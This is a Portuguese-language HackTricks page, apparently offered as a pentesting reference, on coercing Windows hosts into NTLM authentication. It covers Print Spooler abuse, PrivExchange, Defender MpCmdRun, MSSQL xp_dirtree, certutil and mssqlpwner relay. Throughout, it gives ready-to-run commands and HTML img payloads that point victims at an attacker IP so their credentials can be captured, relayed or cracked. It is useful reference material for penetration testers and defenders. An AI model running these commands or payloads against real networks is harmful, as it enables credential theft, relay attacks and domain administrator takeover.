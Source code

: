 # Forçar Autenticação Privilegiada NTLM

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) é uma **coleção** de **gatilhos de autenticação remota** codificados em C# usando o compilador MIDL para evitar dependências de terceiros.

## Abuso do Serviço de Spooler

Se o _**Serviço de Spooler de Impressão**_ estiver **ativado**, você pode usar algumas credenciais de AD já conhecidas para **solicitar** ao servidor de impressão do Controlador de Domínio uma **atualização** sobre novos trabalhos de impressão e apenas dizer para **enviar a notificação para algum sistema**.\
Observe que, quando a impressora envia a notificação para sistemas arbitrários, ela precisa **se autenticar contra** esse **sistema**. Portanto, um atacante pode fazer o _**Serviço de Spooler de Impressão**_ se autenticar contra um sistema arbitrário, e o serviço **usará a conta do computador** nessa autenticação.

### Encontrando Servidores Windows no domínio

Usando PowerShell, obtenha uma lista de máquinas Windows. Servidores geralmente têm prioridade, então vamos focar lá:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Encontrando serviços de Spooler escutando

Usando uma versão ligeiramente modificada do @mysmartlogin (Vincent Le Toux) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket), veja se o Serviço de Spooler está escutando:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Você também pode usar rpcdump.py no Linux e procurar pelo Protocolo MS-RPRN
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### Peça ao serviço para autenticar contra um host arbitrário

Você pode compilar[ **SpoolSample daqui**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
ou use [**3xocyte's dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) ou [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) se você estiver no Linux
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Combinando com Delegação Incontrolada

Se um atacante já comprometeu um computador com [Delegação Incontrolada](unconstrained-delegation.md), o atacante poderia **fazer a impressora se autenticar contra este computador**. Devido à delegação incontrolada, o **TGT** da **conta de computador da impressora** será **salvo na** **memória** do computador com delegação incontrolada. Como o atacante já comprometeu este host, ele poderá **recuperar este ticket** e abusar dele ([Pass the Ticket](pass-the-ticket.md)).

## Autenticação Forçada RCP

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

O ataque `PrivExchange` é resultado de uma falha encontrada na **funcionalidade `PushSubscription` do Exchange Server**. Esta funcionalidade permite que o servidor Exchange seja forçado por qualquer usuário de domínio com uma caixa de correio a se autenticar em qualquer host fornecido pelo cliente via HTTP.

Por padrão, o **serviço Exchange é executado como SYSTEM** e recebe privilégios excessivos (especificamente, possui **privilégios WriteDacl na atualização cumulativa do domínio anterior a 2019**). Esta falha pode ser explorada para habilitar o **encaminhamento de informações para LDAP e, subsequentemente, extrair o banco de dados NTDS do domínio**. Em casos onde o encaminhamento para LDAP não é possível, esta falha ainda pode ser usada para encaminhar e autenticar em outros hosts dentro do domínio. A exploração bem-sucedida deste ataque concede acesso imediato ao Admin do Domínio com qualquer conta de usuário autenticada do domínio.

## Dentro do Windows

Se você já estiver dentro da máquina Windows, pode forçar o Windows a se conectar a um servidor usando contas privilegiadas com:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```
Ou use esta outra técnica: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

É possível usar certutil.exe lolbin (binário assinado pela Microsoft) para forçar a autenticação NTLM:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML injection

### Via email

Se você souber o **endereço de e-mail** do usuário que faz login em uma máquina que você deseja comprometer, você pode simplesmente enviar a ele um **e-mail com uma imagem 1x1** como
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
e quando ele o abrir, ele tentará se autenticar.

### MitM

Se você puder realizar um ataque MitM a um computador e injetar HTML em uma página que ele visualizar, você pode tentar injetar uma imagem como a seguinte na página:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## Quebrando NTLMv1

Se você conseguir capturar [desafios NTLMv1 leia aqui como quebrá-los](../ntlm/#ntlmv1-attack).\
&#xNAN;_&#x52;emember que para quebrar NTLMv1 você precisa definir o desafio do Responder como "1122334455667788"_

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

